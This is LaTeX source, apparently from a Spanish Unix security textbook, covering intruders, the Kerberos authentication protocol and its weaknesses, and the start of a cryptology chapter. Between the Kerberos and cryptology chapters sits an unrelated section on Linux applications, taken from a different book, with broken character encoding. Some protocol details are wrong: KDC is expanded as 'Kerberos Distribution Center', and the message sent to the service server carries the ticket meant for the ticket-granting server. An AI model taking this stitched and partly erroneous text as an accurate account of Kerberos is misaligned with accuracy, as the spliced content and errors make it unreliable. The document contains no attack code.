forestales, por lo que nadie mejor que \'el para evitar que se produzcan\ldots 
>verdad? Por supuesto, todos podemos haber cometido errores en el pasado, pero
si no existe un claro cambio de conducta por su parte, alguien que haya sido
un pirata es muy probable que lo siga siendo, aunque ahora cobre por ello.\\
\\Sin entrar a juzgar la inteligencia o la \'etica de estos individuos
-- evidentemente, habr\'a de todo en la comunidad {\it underground} --, 
desde un punto de vista t\'ecnico sus actividades no dicen nada a su favor; 
seguramente la 
actitud de estos delincuentes ser\'a m\'as interesante para un psiquiatra, un
soci\'ologo o un psic\'ologo de lo que lo pueda ser para un inform\'atico\ldots 
Las `haza\~nas' de estas personas constituyen un obvio problema de seguridad 
tanto para nuestras redes como para nuestras m\'aquinas; para evitar los 
t\'{\i}picos conflictos de denominaci\'on ({\it >hackers o crackers?}) hemos
decidido llamar a los piratas inform\'aticos {\bf intrusos} o 
simplemente {\bf piratas}. Los problemas que nos causan no son algo nuevo: como
ya dijimos en el primer punto, el primer trabajo sobre detecci\'on de intrusos 
data de 1980 (\cite{kn:and80}), y desde entonces este campo ha sido, es, y con 
toda probabilidad seguir\'a siendo, uno de los m\'as activos en la 
investigaci\'on dentro del mundo de la seguridad inform\'atica.

\cleardoublepage
\chapter{Kerberos} 
\section{Introducci\'on}
Durante 1983 en el M.I.T. ({\it Massachussetts Institute of Technology}) 
comenz\'o el proyecto {\it Athena} con el objetivo de crear un entorno de
trabajo educacional compuesto por estaciones gr\'aficas, redes de alta velocidad
y servidores; el sistema operativo para implementar este entorno era Unix 
4.3BSD, y el sistema de autenticaci\'on utilizado en el proyecto se denomin\'o 
{\it Kerberos} (\cite{kn:mil87}) en honor al perro de tres cabezas que en la 
mitolog\'{\i}a griega vigila la puerta de entrada a Hades, el infierno.\\
\\Hasta que se dise\~n\'o {\it Kerberos}, la autenticaci\'on en redes de 
computadores se realizaba principalmente de dos formas: o bien se aplicaba la
autenticaci\'on por declaraci\'on ({\it Authentication by assertion}), en la que
el usuario es libre de indicar el servicio al que desea acceder (por ejemplo,
mediante el uso de un cliente determinado), o bien se utilizaban contrase\~nas
para cada servicio de red. Evidentemente el primer modelo proporciona un nivel
de seguridad muy bajo, ya que se le otorga demasiado poder al cliente sobre el
servidor; el segundo modelo tampoco es muy bueno: por un lado se obliga al
usuario a ir tecleando cont\'{\i}nuamente su clave, de forma que se pierde 
demasiado tiempo y adem\'as la contrase\~na est\'a viajando cont\'{\i}nuamente
por la red. {\it Kerberos} trata de mejorar estos esquemas intentando por un
lado que un cliente necesite autorizaci\'on para comunicar con un servidor
(y que esa autorizaci\'on provenga de una m\'aquina confiable), y por otro
eliminando la necesidad de demostrar el conocimiento de informaci\'on privada
(la contrase\~na del usuario) divulgando dicha informaci\'on.\\
\\{\it Kerberos} se ha convertido desde entonces en un referente obligatorio a
la hora de hablar de seguridad en redes. Se encuentra disponible para la 
mayor\'{\i}a de sistemas Unix, y viene integrado con OSF/DCE ({\it Distributed 
Computing Environment}). Est\'a especialmente recomendado para sistemas 
operativos distribuidos, en los que la autenticaci\'on es una pieza fundamental 
para su funcionamiento: si conseguimos que un servidor logre conocer la 
identidad de un cliente puede decidir sobre la concesi\'on de un servicio o la 
asignaci\'on de privilegios especiales. Sigue vigente en la actualidad (en su
versi\'on V a la hora de escribir este trabajo), a pesar del tiempo 
transcurrido desde su dise\~no; adem\'as fu\'e el pionero de los sistemas 
de autenticaci\'on para sistemas en red, y muchos otros dise\~nados 
posteriormente, como {\it 
KryptoKnight} (\cite{kn:mol92}, \cite{kn:jan97}\dots), {\sc sesame} 
(\cite{kn:pin93}) o {\it Charon} (\cite{kn:atk93}) se basan en mayor o menor 
medida en {\it Kerberos}.\\
\\El uso de {\it Kerberos} se produce principalmente en el {\it login}, en el 
acceso a otros servidores (por ejemplo, mediante {\tt rlogin}) y en el acceso
a sistemas de ficheros en red como {\sc nfs}. Una vez que un cliente est\'a
autenticado o bien se asume que todos sus mensajes son fiables, o si se desea
mayor seguridad se
puede elegir trabajar con mensajes seguros (autenticados) o privados
(autenticados y cifrados). {\it Kerberos} se puede implementar en un 
servidor que se ejecute en una m\'aquina segura, mediante un conjunto de 
bibliotecas que utilizan tanto los clientes como las aplicaciones; se trata de
un sistema
f\'acilmente escalable y que admite replicaci\'on, por lo que se puede utilizar
incluso en sistemas de alta disponibilidad (aunque como veremos al final del
cap\'{\i}tulo est\'a fuertemente centralizado).
\section{Arquitectura de Kerberos}
Un servidor {\it Kerberos} se denomina KDC ({\it Kerberos Distribution Center}),
y provee de dos servicios fundamentales: el de autenticaci\'on (AS, {\it 
Authentication Service}) y el de {\it tickets} (TGS, {\it Ticket Granting 
Service}). El primero tiene como funci\'on autenticar inicialmente a los 
clientes y proporcionarles un {\it ticket} para comunicarse con el segundo, 
el servidor de {\it tickets}, que proporcionar\'a a los clientes las 
credenciales necesarias para comunicarse con un servidor final que es quien
realmente ofrece un servicio. Adem\'as, el servidor posee una base de datos de
sus clientes (usuarios o programas) con sus respectivas claves privadas, 
conocidas \'unicamente por dicho servidor y por el cliente que al que 
pertenece.\\
\\La arquitectura de {\it Kerberos} est\'a basada en tres objetos de seguridad:
Clave de Sesi\'on, {\it Ticket} y Autenticador.
\begin{itemize}
\item{}
La {\bf clave de sesi\'on} es una clave secreta generada por {\it Kerberos} y
expedida a un cliente para uso con un servidor durante una sesi\'on; no es
obligatorio utilizarla en toda la comunicaci\'on con el servidor, s\'olo si el
servidor lo requiere (porque los datos son confidenciales) o si el servidor es
un servidor de autenticaci\'on. Se suele denominar a esta clave $K_{CS}$,
para la comunicaci\'on entre un cliente C y un servidor S.\\
Las claves de sesi\'on se utilizan para minimizar el uso de las claves secretas
de los diferentes agentes: \'estas \'ultimas son v\'alidas durante mucho
tiempo, por lo que es conveniente para minimizar ataques utilizarlas lo menos 
posible.
\item{}
El {\bf ticket} es un testigo expedido a un cliente del servicio de {\it
tickets} de {\it Kerberos} para solicitar
los servicios de un servidor; garantiza que el cliente ha sido autenticado
recientemente. A un {\it ticket} de un cliente C para acceder a un servicio S
se le denomina
$\{ticket(C,S)\}_{K_{S}}\, =\, \{C, S, t_{1}, t_{2}, K_{CS}\}_{K_{S}}$.
Este {\it ticket} incluye el nombre del cliente C, para evitar su posible uso
por impostores, un periodo de validez $[t_{1},t_{2}]$ y una clave de sesi\'on
$K_{CS}$ asociada para uso de cliente y servidor. {\it Kerberos} siempre
proporciona el {\it ticket} ya cifrado con la clave secreta del servidor al que
se le entrega.
\item{}
El {\bf autenticador} es un testigo construido por el cliente y enviado a un
servidor para probar su identidad y la actualidad de la comunicaci\'on; s\'olo
puede ser utilizado una vez. Un autenticador de un cliente C ante un servidor S
se denota por $\{auth(C)\}_{K_{CS}}\, = \, \{C,t\}_{K_{CS}}$.
Este autenticador contiene, cifrado con la clave de la sesi\'on, el nombre del
cliente y un {\it timestamp}.\\
\end{itemize}
{\it Kerberos} sigue de cerca el protocolo de Needham y Schroeder
(\cite{kn:nee78}) con clave
secreta, utilizando {\it timestamps} como pruebas de frescura con dos
prop\'ositos: evitar reenv\'{\i}os de viejos mensajes capturados en la red o la
reutilizaci\'on de viejos {\it tickets} obtenidos de zonas de memoria del
usuario autorizado, y a la vez poder revocar a los usuarios los derechos al
cabo de un tiempo.
\section{Autenticaci\'on}
El protocolo de autenticaci\'on de {\it Kerberos} es un proceso en el que
diferentes elementos colaboran para conseguir identificar a un cliente que 
solicita un servicio ante un servidor que lo ofrece; este proceso se
realiza en tres grandes etapas que a continuaci\'on se describen. En la tabla 
\ref{kerb-abbr} se muestran las abreviaturas utilizadas, y en la figura 
\ref{kerb} un resumen gr\'afico de este protocolo.
\begin{table}
\begin{center}
\begin{tabular}{|c||c|}
\hline
C & Cliente que solicita un servicio\\
\hline
S & Servidor que ofrece dicho servicio\\
\hline
A & Servidor de autenticaci\'on\\
\hline
T & Servidor de {\it tickets}\\
\hline
K$_{C}$ & Clave secreta del cliente\\
\hline
K$_{S}$ & Clave secreta del servidor\\
\hline
K$_{T}$ & Clave secreta del servidor de {\it tickets}\\
\hline
K$_{CT}$ & Clave de sesi\'on entre el cliente y el servidor de {\it tickets}\\
\hline
K$_{CS}$ & Clave de sesi\'on entre cliente y servidor\\
\hline
\end{tabular}
\caption{Abreviaturas utilizadas.}
\label{kerb-abbr}
\end{center}
\end{table}
\subsection{Login}
Inicialmente el cliente C (en este caso el usuario a trav\'es del programa {\tt
login}) necesita obtener las
credenciales necesarias para acceder a otros servicios. Para ello 
cuando un usuario conecta a un sistema Unix `kerberizado' teclea en primer 
lugar su nombre de usuario, de la misma forma que en un sistema habitual; la
diferencia est\'a en que el programa {\tt login} env\'{\i}a el nombre de
usuario al servidor de autenticaci\'on de {\it Kerberos} para solicitar un {\it
ticket} que le permita comunicarse posteriormente con el servidor de {\it 
tickets}, TGS:
\begin{center}
$C\,\rightarrow\, A:\, C,T,N$
\end{center}
Si el usuario es conocido, el servidor de autenticaci\'on retorna un mensaje 
que contiene una clave para 
la comunicaci\'on con TGS y un {\it timestamp} cifrado con la clave secreta del 
cliente, junto un {\it ticket} para la comunicaci\'on 
con TGS cifrado con la clave secreta de este servidor:
\begin{center}
$A\,\rightarrow\, C:\,\{K_{CT},N\}_{K_{C}}\, ,\, \{ticket(C,T)\}_{K_{T}}$
\end{center}
El programa de {\it login} intentar\'a descifrar $\{{K_{CT},N}\}_{K_{C}}$, con 
la clave que el usuario proporciona, y si \'esta es correcta podr\'a obtener 
$K_{CT}$ y $N$: un cliente s\'olo podr\'a descifrar esta parte del mensaje si 
conoce su 
clave secreta, $K_{C}$ (en este caso el {\it password}). Una vez obtenida
$K_{CT}$, la clave para comunicar al cliente con el servidor de {\it tickets}, 
el programa {\tt passwd} la guarda para una posterior comunicaci\'on
con el TGS y borra la clave del usuario de memoria, ya que el {\it ticket} 
ser\'a suficiente para autenticar al cliente; este modelo consigue que {\bf el
{\it password} nunca viaje por la red}.
\subsection{Obtenci\'on de {\it tickets}}
El cliente ya posee una clave de sesi\'on para comunicarse con el servidor de
{\it tickets} y el {\it ticket} necesario para hacerlo, cifrado con la clave 
secreta de este servidor (el cliente {\bf no} puede descifrar este {\it 
ticket}). Cuando el cliente necesita acceder a un determinado servicio es 
necesario que disponga de un {\it ticket} para hacerlo, por lo que lo solicita 
al TGS envi\'andole un autenticador que el propio cliente genera, el {\it
ticket} de T y el nombre del servicio al que desea acceder, S, y un indicador
de tiempo:
\begin{center}
$C\,\rightarrow\, T:\,\{auth(C)\}_{K_{CT}}\, ,\, \{ticket(C,T)\}_{K_{T}}\, ,\, S\, ,\, N$
\end{center}
Cuando TGS recibe el {\it ticket} comprueba su validez y si todo es correcto
retorna un mensaje que contiene una clave para comunicaci\'on con S y un {\it 
timestamp} cifrado con la clave de sesi\'on del par CT, junto a un {\it ticket} 
para que el cliente C y el servidor S se puedan comunicar cifrado con la 
clave secreta del servidor:
\begin{center}
$T\,\rightarrow\, C:\,\{K_{CS},N\}_{K_{CT}}\, ,\, \{ticket(C,S)\}_{K_{S}}$
\end{center}
C s\'olo podr\'a obtener $K_{CS}$ si conoce la clave secreta, $K_{CT}$.
\subsection{Petici\'on de servicio}
Tras obtener el {\it ticket} para comunicarse con S el cliente ya est\'a
preparado para solicitar el servicio; para ello presenta la credencial
autenticada ante el servidor final, que es quien va a prestar el servicio.
C se comporta de la misma forma que cuando solicit\'o un {\it ticket} a T: 
env\'{\i}a a S el autenticador reci\'en generado, el {\it ticket} y una 
petici\'on que puede ir cifrada si el servidor lo requiere, aunque no es 
necesario:
\begin{center}
$C\,\rightarrow\, S:\,\{auth(C)\}_{K_{CS}}\, ,\, \{ticket(C,T)\}_{K_{S}}\, ,\,
peticion\, ,\,N$
\end{center}
El servidor env\'{\i}a entonces al cliente la prueba de actualidad cifrada con 
la clave secreta de la sesi\'on:
\begin{center}
$S\,\rightarrow\, C:\,\{N\}_{K_{CS}}$
\end{center}
S\'olo S pudo obtener $K_{CS}$ y por tanto enviar este mensaje.
\begin{figure}
\fbox{
%\parbox{6.7in}{
\parbox{\textwidth}{
\begin{center}

\includegraphics[width=\textwidth]{kerby.png}
\end{center}
}}
\caption{Protocolo de autenticaci\'on {\it Kerberos}.}
\label{kerb}
\end{figure}
\section{Problemas de Kerberos}
A la vista de todo lo comentado en los puntos anteriores puede darnos la
impresi\'on de que {\it Kerberos} es la panacea de los sistemas de 
autenticaci\'on. Sin embargo, y aunque se trate de un sistema robusto, no est\'a
exento de ciertos problemas, tanto de seguridad como de implementaci\'on, que
han hecho que este sistema no est\'e todo lo extendido que deber\'{\i}a.\\
\\Uno de los principales problemas de {\it Kerberos} es que cualquier programa
que lo utilice ha de ser modificado para poder funcionar correctamente, 
siguiendo un proceso denominado `kerberizaci\'on'. Esto implica obviamente que
se ha de disponer del c\'odigo fuente de cada aplicaci\'on que se desee 
kerberizar, y tambi\'en supone una inversi\'on de tiempo considerable para 
algunas aplicaciones m\'as o menos complejas que no todas las organizaciones se
pueden permitir.\\
\\El problema anterior es simplemente de implementaci\'on; no afecta para nada
a la seguridad -- o inseguridad -- del protocolo. Un problema que s\'{\i} est\'a
relacionado con la seguridad de {\it Kerberos} es la gran centralizaci\'on que
presenta el sistema. Para un correcto funcionamiento se ha de disponer en todo
momento del servidor {\it Kerberos}, de forma que si la m\'aquina que lo alberga
falla, la red se convierte en inutilizable; obviamente esto es una 
contradicci\'on con lo que nos dice la teor\'{\i}a de sistemas distribuidos, 
donde se recalca el uso de la distribuci\'on para mantener la disponibilidad del
sistema, intentado que si un equipo falla el resto pueda seguir funcionando, si
no a pleno rendimiento, al menos correctamente. Por si esto no fuera suficiente,
otro ejemplo de la centralizaci\'on de {\it Kerberos} reside en el hecho de que
casi toda la seguridad reside en el servidor que mantiene la base de datos de
claves, de forma que si \'este se ve comprometido, la red entera est\'a 
amenazada.\\
\\Otro potencial problema de seguridad es el uso de {\it timestamps} como 
pruebas de frescura en {\it Kerberos}. Esto obliga a que todas las m\'aquinas
que ejecutan servicios autenticados mantengan sus relojes m\'{\i}nimamente
sincronizados (con desfases m\'aximos de pocos minutos), con todo lo que esto
implica. Adem\'as ese tiempo global ha de ser accesible a todas las estaciones;
aunque en el dise\~no no se asume que todas mantengan la hora exacta, s\'{\i} 
que se les obliga a mantenerse dentro de los m\'argenes si desean solicitar
{\it tickets}, para lo que se necesitan servidores de tiempo con los que los
clientes puedan sincronizar peri\'odicamente sus relojes, por ejemplo cada
vez que arrancan.\\
\\Todos estos problemas, y algunos m\'as (\cite{kn:bel91}) que se han ido 
solucionando en diferentes versiones del sistema, han propiciado que el uso de 
{\it Kerberos} no est\'e muy extendido; en la mayor\'{\i}a de redes es 
suficiente con un protocolo de comunicaci\'on cifrado para mantener una 
m\'{\i}nima seguridad, de forma que el complejo modelo de {\it Kerberos} se ve 
sustituido a ese efecto por programas tan simples y transparentes como {\sc 
ssh}.

\cleardoublepage
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Otros aspectos de la seguridad
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% {\linux} Installation and Getting Started    -*- TeX -*-
% misc.tex
% Copyright (c) 1992-1994 by Matt Welsh <mdw@sunsite.unc.edu>
%
% This file is freely redistributable, but you must preserve this copyright 
% notice on all copies, and it must be distributed only as part of "{\linux} 
% Installation and Getting Started". This file's use is covered by the 
% copyright for the entire document, in the file "copyright.tex".
%
% Copyright (c) 1998 by Specialized Systems Consultants Inc. 
% <ligs@ssc.com>
% Revisi�n 1 por Francisco javier Fernandez --sin fallos--
%Gold
\subsection{Otras aplicaciones}

Existen para {\linux} multitud de aplicaciones y utilidades de todo tipo, 
como cabe esperar de un sistema tan variado. El principal objetivo de
{\linux} es la inform�tica personal con UNIX, pero no es �ste el �nico campo
en donde sobresale. El cat�logo de programas cient�ficos y para empresas,
sigue creciendo y los desarrolladores de software comercial hace tiempo que 
han comenzado a contribuir al creciente fondo de aplicaciones para {\linux}.

Hay disponibles en {\linux} varias bases de datos relacionales, por ejemplo
Postgres, Ingres, Mbase, Oracle, IBM DB2, Interbase, Sybase y ADABAS.
Se trata de aplicaciones de bases datos profesionales, con todo tipo 
de caracter�sticas avanzadas, y de arquitectura cliente/servidor, 
semejantes a las que se encuentran en otras plataformas UNIX. 
Existen igualmente otros sistemas comerciales de bases de datos para {\linux}.

Entre las aplicaciones cient�ficas se cuentan FELT (finite element
analysis, an�lisis de elementos finitos); {\tt gnuplot} (representaci�n 
y an�lisis de datos); Octave (un paquete de matem�tica simb�lica similar
a MATLAB); {\tt xspread} (calculadora y hoja de c�lculo); {\tt xfractint}
(una adaptaci�n a X~Window del conocido generador de fractales Fractint)
y {\tt xlispstat} (para estad�sticas). Otras aplicaciones: SPICE 
(dise�o y an�lisis de circuitos) y Khoros (dise�o y visualizaci�n de im�genes
y se�ales digitales). Tambi�n existen aplicaciones comerciales como Maple y 
Matlab.

Se han adaptado a {\linux} muchas m�s aplicaciones, y �ltimamente el n�mero
crece vertiginosamente. Si de ninguna manera encuentra lo que busca,
siempre puede intentar migrar usted mismo la aplicaci�n desde otra
plataforma. Migrar aplicaciones UNIX, del campo que sea, a {\linux} no suele
presentar problemas. El completo entorno de programaci�n UNIX del que dispone
{\linux} sirve de base para cualquier aplicaci�n cient�fica.

{\linux} cuenta tambi�n con un creciente n�mero de juegos. Existen los cl�sicos
juegos de dragones y mazmorras basados en texto, como Nethack y Moria;
luego est�n los {\bf MUDs} (multi-user dungeons, dragones y mazmorras multiusuario) 
que permiten que muchos usuarios interact�en en una aventura basada en texto, como
DikuMUD y TinyMUD; y una pl�yade de juegos para las X~Window, como {\tt xtetris}, 
{\tt netrek}, y {\tt xboard}, la versi�n X11 de {\tt gnuchess}. El popular 
juego de disparar a todo lo que se mueva, Doom, y los arcades que lo continuaron,
Quake, Quake II y Quake III, han sido portados a {\linux}. �ste �ltimo ha salido para 
{\linux} antes que para algunas plataformas mayoritarias, 

Para los mel�manos, {\linux} soporta gran variedad de tarjetas de sonido
y programas asociados, como CDplayer, que convierte su unidad de CD-Rom
en un reproductor de CD's, secuenciadores y editores MIDI, que permiten
componer m�sica para su reproducci�n en un sintetizador u otro instrumento
controlado por MIDI, editores de sonido para sonidos digitalizados, y 
codificadores y reproductores de ficheros en formato MP3\NT{Durante la traducci�n
de este documento, el formato libre Ogg Vorbis ha alcanzado la versi�n 1.0}.

�No encuentra la aplicaci�n que busca? El Mapa de Software {\linux}, que
se describe en el Ap�ndice~\ref{app-sources-num}, enumera los paquetes 
de software que se han escrito o migrado a {\linux}. Otra manera de encontrar
aplicaciones para {\linux} es buscar en los ficheros {\tt INDEX} que se 
encuentran en los sitios FTP con programas para {\linux}, en el caso de que tenga
acceso a Internet.

La mayor parte del software libremente redistribuible disponible para UNIX
compila sin problemas en {\linux}, o al menos con poca dificultad.
Pero si todo lo dem�s fallara, siempre puede programarse usted mismo la
aplicaci�n. Si anda buscado una aplicaci�n comercial, puede existir un 
cl�nico libre. Incluso puede considerar la posibilidad de animar a su
compa��a proveedora de software a que lance una versi�n de su programa
para {\linux}. Muchos individuos y organizaciones han contactado ya con 
compa��as de software y les han pedido que porten sus aplicaciones a {\linux},
con diferentes grados de �xito.


%%% Local Variables: 
%%% mode: plain-tex
%%% TeX-master: t
%%% End: 


\cleardoublepage
\chapter{Criptolog\'{\i}a}
\section{Introducci\'on}
En el {\it mundo real}, si una universidad quiere proteger los 
expedientes de sus alumnos los guardar\'a en un armario ign\'{\i}fugo, bajo
llave y vigilado por guardias, para que s\'olo las personas autorizadas 
puedan acceder a ellos para leerlos o modificarlos; si queremos 
proteger nuestra correspondencia de curiosos, simplemente usamos un sobre; si 
no queremos que nos roben dinero, lo guardamos en una caja fuerte\ldots 
Lamentablemente, en una red no disponemos de todas estas medidas que nos 
parecen habituales: la principal (podr\'{\i}amos decir {\bf \'unica}) forma de 
protecci\'on 
va a venir de la mano de la criptograf\'{\i}a. El cifrado de los datos nos va a
permitir desde proteger nuestro correo personal para que ning\'un curioso lo 
pueda leer, hasta controlar el acceso a nuestros archivos de forma que s\'olo 
personas autorizadas puedan examinar (o lo que quiz\'as es m\'as importante, 
mo\-di\-fi\-car) su contenido, pasando por proteger nuestras claves cuando
conectamos a un sistema remoto o nuestros datos bancarios cuando realizamos
una compra a trav\'es de Internet. Hemos presentado con anterioridad algunas
aplicaciones que utilizan de una u otra forma la criptograf\'{\i}a para proteger
nuestra informaci\'on; aqu\'{\i} intentaremos dar unas bases te\'oricas 
m\'{\i}nimas sobre t\'erminos, algoritmos, funciones\ldots utilizadas en ese
tipo de aplicaciones. Para m\'as referencias es {\bf imprescindible} la obra 
\cite{kn:sch94}; otras publicaciones interesantes son \cite{kn:men96}, 
\cite{kn:den83}, \cite{kn:sal90} y, para temas de criptoan\'alisis,
\cite{kn:army}. Un texto b\'asico para aquellos que no 
disponen de mucho tiempo o que s\'olo necesitan una perspectiva general de la
criptograf\'{\i}a puede ser \cite{kn:cab96}.\\
\\La {\bf criptolog\'{\i}a} (del griego {\it krypto} y {\it logos}, estudio 
de lo oculto, lo escondido) es la ciencia\footnote{Hemos de dejar patente 
que la criptolog\'{\i}a es una {\it ciencia}, aunque en muchos lugares a\'un 
se la considera un {\it arte}; por ejemplo, en el Diccionario de la Real 
Academia de la Lengua Espa\~nola.} que trata los problemas te\'oricos
relacionados con la seguridad en el intercambio de mensajes en clave entre
un emisor y un receptor a trav\'es de un canal de comunicaciones (en
t\'erminos inform\'aticos, ese canal suele ser una red de computadoras).
Esta ciencia est\'a dividida en dos grandes ramas: la {\bf criptograf\'{\i}a},
ocupada del cifrado de mensajes en clave y del dise\~no de criptosistemas
(hablaremos de \'estos m\'as adelante), y el {\bf criptoan\'alisis},
que trata de descifrar los mensajes en clave, rompiendo as\'{\i} el 
criptosistema. En lo sucesivo nos centraremos m\'as en la criptograf\'{\i}a y 
los criptosistemas que en el criptoan\'alisis, ya que nos interesa, m\'as que 
romper sistemas de cifrado 
(lo cual es bastante complicado cuando trabajamos con criptosistemas serios), 
el saber c\'omo funcionan \'estos y conocer el dise\~no elemental de algunos 
sistemas seguros.\\
\\La criptograf\'{\i}a es una de las ciencias consideradas como m\'as
antiguas, ya que sus or\'{\i}genes se remontan al nacimiento de nuestra
civilizaci\'on. Su uso original era el proteger la confidencialidad
de informaciones militares y pol\'{\i}ticas, pero en la actualidad es una 
ciencia interesante no s\'olo en esos c\'{\i}rculos cerrados, sino para
cualquiera 
que est\'e interesado en la confidencialidad de unos determinados datos: 
actualmente existe multitud de software y hardware destinado a analizar y 
monitorizar el tr\'afico de datos en redes de computadoras; si bien estas 
herramientas constituyen un avance en t\'ecnicas de seguridad y protecci\'on,
su uso indebido es al mismo tiempo un grave problema y una enorme fuente
de ataques a la intimidad de los usuarios y a la integridad de los propios 
sistemas. Aunque el objetivo original de la criptograf\'{\i}a era mantener en 
secreto un mensaje, en la actualidad no se persigue \'unicamente la privacidad 
o {\bf confidencialidad} de los datos, sino que se busca adem\'as garantizar la 
{\bf autenticidad} de los mismos (el emisor del mensaje es quien dice ser, y 
no otro), su {\bf integridad} (el mensaje que leemos es el mismo que nos 
enviaron) y su {\bf no repudio} (el emisor no puede negar el haber enviado el 
mensaje).\\
\\Podemos dividir la historia de la criptograf\'{\i}a en tres periodos
fundamentales; hasta mediados de siglo, tenemos la criptolog\'{\i}a 
precient\'{\i}fica, considerada no una ciencia sino m\'as bien un arte. En 
1949, Shannon logr\'o cimentar la criptograf\'{\i}a sobre unas bases 
matem\'aticas (\cite{kn:sha49}), comenzando el per\'{\i}odo de la 
criptograf\'{\i}a cient\'{\i}fica. Poco m\'as de diez a\~nos despu\'es se
comenz\'o a estudiar la posibilidad de una comunicaci\'on secreta sin que ambas
partes conocieran una clave com\'un (hasta ese momento la existencia de dicha
clave era la base de toda la seguridad en el intercambio de informaci\'on),
de forma que esos estudios dieron lugar a diversos art\'{\i}culos sobre el tema 
durante la d\'ecada de los setenta (\cite{kn:ell70}, \cite{kn:coc73}, 
\cite{kn:wil74}, \cite{kn:wil76}\ldots). Finalmente, en 1976 Diffie y Hellman 
publicaron sus trabajos sobre criptograf\'{\i}a de clave p\'ublica 
(\cite{kn:dh76}), dando lugar al per\'{\i}odo de criptograf\'{\i}a de clave 
p\'ublica, que dura hasta la actualidad.
\section{Criptosistemas}
Matem\'aticamente, podemos definir un criptosistema como una cuaterna
de elementos {\it\{$\cal A,K,E,D$\}}, formada por:
\begin{itemize}
\item{}Un conjunto finito llamado {\bf alfabeto}, $\cal A$, a partir del cual, 
y utilizando ciertas normas sin\-t\'ac\-ti\-cas y sem\'anticas, podremos emitir
un mensaje en claro (\it{plain text}\rm) u obtener el texto en claro 
correspondiente a un mensaje cifrado ({\it cipher text}). Frecuentemente, este 
alfabeto es el conjunto de los enteros m\'odulo $q$, ${\cal Z}_{q}$, para un 
$q\in{\cal N}$ dado.
\item{}Otro conjunto finito denominado {\bf espacio de claves}, $\cal K$, 
formado por todas las posibles claves, tanto de cifrado como de descifrado, del 
criptosistema.
\item{}Una familia de aplicaciones del alfabeto en s\'{\i} mismo, 
$\cal E:A\rightarrow A$, llamadas {\bf transformaciones de cifrado}. El proceso 
de cifrado se suele representar como
\begin{center} 
${\cal E}(k,a)=c$
\end{center}
donde $k\in{\cal K}$, $a\in{\cal A}$ y $c\in{\cal A}$.
\item{}Otra familia de aplicaciones del alfabeto en s\'{\i} mismo, 
$\cal D:A\rightarrow A$, llamadas {\bf transformaciones de descifrado}. 
An\'alogamente al proceso de cifrado, el de descifrado se representa como
\begin{center} 
${\cal D}(k^{\prime},c)=m$,
\end{center}
donde $k^{\prime}\in {\cal K}$, $c\in{\cal A}$ y $m\in{\cal A}$.
\end{itemize}
Muchos autores dividen a su vez un miembro de esta cuaterna, el alfabeto, en 
dos espacios di\-fe\-ren\-tes: el espacio de mensajes, $\cal M$, formado por 
los textos en claro que se pueden formar con el alfabeto, y el espacio de 
cifrados, $\cal C$, formado por todos los posibles criptogramas que el cifrador 
es capaz de producir. Sin embargo, lo habitual es que tanto el texto en claro 
como el cifrado pertenecezcan al alfabeto, por lo que hemos 
preferido no hacer distinciones entre uno y otro, agrup\'andolos en el conjunto 
$\cal A$ para simplificar los conceptos que presentamos. As\'{\i}, un 
criptosistema presenta la estructura mostrada en la figura \ref{crypsys}.\\
\begin{figure}
\begin{center}
\setlength{\unitlength}{0.00083300in}%
%
\begingroup\makeatletter\ifx\SetFigFont\undefined%
\gdef\SetFigFont#1#2#3#4#5{%
  \reset@font\fontsize{#1}{#2pt}%
  \fontfamily{#3}\fontseries{#4}\fontshape{#5}%
  \selectfont}%
\fi\endgroup%
\begin{picture}(6675,2307)(1576,-2806)
\thicklines
\put(2401,-1861){\framebox(1800,1350){}}
\put(5926,-1861){\framebox(1800,1350){}}
\put(4201,-1186){\vector( 1, 0){1725}}
\put(7726,-1186){\vector( 1, 0){375}}
\put(3301,-2386){\vector( 0, 1){525}}
\put(6901,-2386){\vector( 0, 1){525}}
\put(6901,-2386){\line( 0, 1){  0}}
\put(1951,-1186){\vector( 1, 0){450}}
\put(2851,-1261){\makebox(0,0)[lb]{\smash{\SetFigFont{20}{24.0}{\rmdefault}{\mddefault}{\updefault}$\cal E$(k,a)}}}
\put(6376,-1261){\makebox(0,0)[lb]{\smash{\SetFigFont{20}{24.0}{\rmdefault}{\mddefault}{\updefault}$\cal D$(k\'{},c)}}}
\put(3151,-2761){\makebox(0,0)[lb]{\smash{\SetFigFont{20}{24.0}{\rmdefault}{\mddefault}{\updefault} k }}}
\put(6751,-2761){\makebox(0,0)[lb]{\smash{\SetFigFont{20}{24.0}{\rmdefault}{\mddefault}{\updefault} k\' }}}
\put(8251,-1261){\makebox(0,0)[lb]{\smash{\SetFigFont{20}{24.0}{\rmdefault}{\mddefault}{\updefault}a}}}
\put(1576,-1261){\makebox(0,0)[lb]{\smash{\SetFigFont{20}{24.0}{\rmdefault}{\mddefault}{\updefault}a}}}
\put(4951,-1036){\makebox(0,0)[lb]{\smash{\SetFigFont{20}{24.0}{\rmdefault}{\mddefault}{\updefault}c}}}
\end{picture}
\end{center}
\caption{Estructura de un criptosistema}
\label{crypsys}
\end{figure}
\\El emisor emite un texto en claro, que es tratado por un cifrador con la 
ayuda de una cierta clave, $k$, creando
un texto cifrado (criptograma). Este criptograma llega al descifrador a
trav\'es de un canal de comunicaciones (como hemos dicho antes, para
nosotros este canal ser\'a habitualmente alg\'un tipo de red), y este
convierte el criptograma de nuevo en texto claro, apoy\'andose ahora en otra
clave, $k^{\prime}$ (veremos m\'as adelante que esta clave puede o no ser la 
misma que la utilizada para cifrar).Este texto claro ha de coincidir con el 
emitido inicialmente para que se cumplan los principios b\'asicos de la 
criptograf\'{\i}a moderna: en este hecho radica toda la importancia 
de los criptosistemas.\\
\\Es obvio, a la vista de lo expuesto anteriormente, que el elemento m\'as 
importante de todo el criptosistema es el cifrador, que ha de utilizar el 
algoritmo de cifrado para convertir el texto claro en un criptograma.
Usualmente, para hacer esto, el cifrador depende de un par\'ametro
exterior, llamado {\bf clave de cifrado} (o de descifrado, si hablamos del
descifrador) que es aplicado a una funci\'on matem\'atica irreversible (al
menos, computacionalmente): no es posible invertir la funci\'on a
no ser que se disponga de la clave de descifrado. De esta forma, cualquier
